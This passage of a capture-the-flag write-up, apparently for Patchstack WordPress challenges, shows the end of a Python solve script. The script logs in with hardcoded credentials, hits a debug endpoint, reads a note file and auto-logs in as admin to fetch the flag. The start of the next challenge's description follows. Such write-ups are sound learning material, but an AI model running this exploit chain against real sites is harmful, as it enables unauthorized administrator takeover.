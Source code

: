 ```python
    res = await api.c.post("/wp-login.php", data={
        "log": "apprentice",
        "pwd": "891b90c73e9bdf2fe6f284d6f133ae49"
    })
    res = await api.debug()
    res = await api.postrecipe(f"/note.txt")
    print(res.text)
    secret = "kosher"
    res = await api.auto_login("admin")
    print(res.headers)
    res = await api.get_flag(secret)
    print(res.text)


if __name__ == "__main__":
    asyncio.run(main())
```

Flag:

![](./imgs/image_9IcRrNpV.png)

# **Something**

## Challenge Information

Description

    No comment, it's something.

    by Patchstack team

    NOTE: This is a fully white box challenge, almost no heavy brute force is needed.

    [http://3.14.248.34:9055](http://3.14.248.34:9055/)

Attachment
